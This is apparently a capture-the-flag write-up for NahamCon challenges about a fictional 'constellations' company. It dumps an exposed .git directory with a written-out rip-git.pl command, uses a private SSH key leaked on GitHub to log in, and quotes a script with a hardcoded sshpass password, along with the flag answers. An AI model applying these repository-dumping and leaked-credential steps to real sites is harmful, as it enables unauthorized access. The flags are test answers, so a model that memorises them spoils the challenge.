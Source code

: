 ## MEET THE TEAM
- NAVIGATE TO PATH LOCATED IN 'robots.txt'
```
https://constellations.page/meet-the-team.html
```
USING HINT, VIEW SOURCE TO FIND:
```
<!-- Vela, can we please stop sharing our version control software out on the public internet? -->
```
- VELA IS A CONSTELATION
- GITHUB IS VERSION CONTROL
.git/HEAD
```
e7d4663ac6b436f95684c8bfc428cef0d7731455
```
- GET '.git' WITH  'https://github.com/kost/dvcs-ripper'
- AFTER INSTALLING DEPENDENCIES, RUN:
```
./rip-git.pl -v -u https://constellations.page/.git/
```
CD INTO .GIT DIRECTORY, RUN
```
git show
...
flag{4063962f3a52f923ddb4411c139dd24c}
```

## GUS
- GITHUB - https://github.com/gusrodry
- VIEW GITHUB, '.ssh' DIRECTORY
```
flag{84d5cc7e162895fa0a5834f1efdd0b32}
```

## BANKING ON IT
```
chmod 600 id_rsa
ssh -p 31580 gus@challenge.nahamcon.com -i id_rsa
```

## HERCULES
VIEW GITHUB - https://github.com/HerculesScox
```
#!/bin/bash

IP=$1
PORT=$1

sshpass -p starstruckherc ssh hercules@$IP -p $PORT
#
# This flag can be submitted for the `Hercules` challenges, revealed after you solve `Meet The Team`, visible after you solve `Bionic`
# flag{5bf9da15002d7ea53cb487f31781ce47}
```
